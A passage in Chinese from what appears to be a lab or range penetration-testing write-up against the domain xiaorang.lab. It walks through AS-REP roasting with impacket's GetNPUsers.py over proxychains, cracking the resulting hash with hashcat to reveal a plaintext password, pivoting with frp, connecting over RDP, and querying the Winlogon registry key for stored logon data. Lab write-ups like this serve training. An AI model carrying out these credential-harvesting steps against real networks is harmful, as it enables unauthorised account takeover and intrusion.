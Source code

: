 这样，我们可以视为获取了一个用户清单。接下来，我们可以使用这个 user.txt 文件来尝试枚举那些未启用预身份验证的账户。通常情况下，预身份验证是默认开启的，但一旦关闭了，攻击者就有可能利用指定的用户名，通过向域控制器的 Kerberos 88 端口请求票据。在这种情况下，域控制器不会执行任何验证，而是直接返回 TGT（Ticket Granting Ticket）和使用用户 Hash 加密的 Login Session Key。攻击者因此可以对获得的用户 Hash 加密的 Login Session Key 进行离线破解。如果字典足够强大，就有可能成功破解获得指定用户的明文密码。

用 impacket 中得

```bash
proxychains python3 GetNPUsers.py -dc-ip 172.22.6.12 -usersfile user.txt xiaorang.lab/
```

[![](assets/1706513339-af7fbe2fc42bcdd0bee133591d269a30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240128231705-4bf09d64-bdf0-1.png)

最后得到 zhangxin@XIAORANG.LAB 用户的用户 hash、

用 hashcat 爆破一下

```bash
hashcat -m 18200 1.txt -a 0 ./rockyou.txt  --force
```

```bash
zhangxin@XIAORANG.LAB:strawberry
```

得到账号密码

然后我们换上全局代理，这里我们从 venom 代理换成 frp，因为使用 venom 代理 的时候挂全局代理会不稳定，经常掉线，所以这块的操作我就使用 frp 代理

rdp 连接

登录了 172.22.6.25，然后查看一下用户

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

